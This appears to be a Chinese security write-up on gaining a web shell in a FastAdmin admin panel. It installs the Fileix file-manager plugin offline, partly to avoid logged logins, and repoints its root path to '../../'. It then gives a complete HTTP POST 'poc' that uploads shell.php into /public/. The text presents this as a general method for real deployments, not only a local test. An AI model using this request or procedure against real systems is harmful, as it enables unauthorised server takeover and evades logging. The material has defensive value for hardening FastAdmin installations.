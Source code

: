 FastAdmin 第三方插件后台getshell
================================

**0x01 前言**



FastAdmin是基于ThinkPHP5和Bootstrap的后台框架，可以利用三方插件GetShell



**0x02 本地测试**



FastAdmin官方源码下载地址：

```
https://www.fastadmin.net/download.html
```



开启phpstudy本地搭建

![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135325926.png)



安装成功，新版源码的后台地址是随机生成的



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326062.png)



后台默认会有插件管理功能，但是绝大部分用户会把这个功能阉割掉



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326155.png)



点进去看到有一堆付费和免费的插件



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326173.png)



翻到了目前已有的三个官方发布的在线文件管理器插件，一个是官方付费版，一个是三方付费版



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326004.png)

![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326014.png)



但是由于舍不得花十块钱买插件，所有只能用三方免费版插件，直接点击安装会需要登录账号，登录信息会记录到日志，不便于操作，所以去官方下载离线安装包



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135325948.png)



Fileix文件管理器离线安装包官方下载地址：

- 

```
https://www.fastadmin.net/store/fileix.html
```



点击离线安装，选择上传你下载的ZIP离线安装包



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326013.png)



插件安装完成会自动启用，默认路径配置是这样的



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326024.png)



然后打开是这样的



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326057.png)



可以修改为 ../../，那么再打开就是这样的



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326061.png)



然后浅显易懂，直接右键上传php文件就能getshell



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326097.png)



上面是本地测试环境，真实环境会出现这样一个问题，就是点击文件管理功能不会显示任何内容



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326174.png)



后来了解一下是因为没有配置前台页面，不太好修改，所以利用下面的方法





**0x03 通用方法**



1.插件管理地址：

- 

```
/admin/addon?ref=addtabs
```



进入后台默认不显示插件管理功能，访问插件管理地址，上传离线安装包



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326080.png)



2.文件管理地址/读取所有文件地址：

- 
- 

```
/admin/fileix?ref=addtabs/admin/fileix/lst
```



真实环境中如果出现不显示功能的情况，必要时可以读取所有文件地址



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326317.png)



3.上传poc：

```
POST /admin/fileix/data?target=%2F HTTP/1.1
Host: localhost
Content-Length: 1050
Origin: http://localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrZmyeAB3SciJDWST
Accept: */*
Referer: http://localhost
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=xxxxxxxx
Connection: close
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="upload"; filename="shell.php"
Content-Type: application/octet-stream
code
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="action"
upload
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="target"
/public/
------WebKitFormBoundaryrZmyeAB3SciJDWST--
```



修改host地址post过去



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326220.png)



利用poc成功上传shell



![img](resource/FastAdmin%20%E7%AC%AC%E4%B8%89%E6%96%B9%E6%8F%92%E4%BB%B6%E5%90%8E%E5%8F%B0getshell/media/640-20201020135326186.png)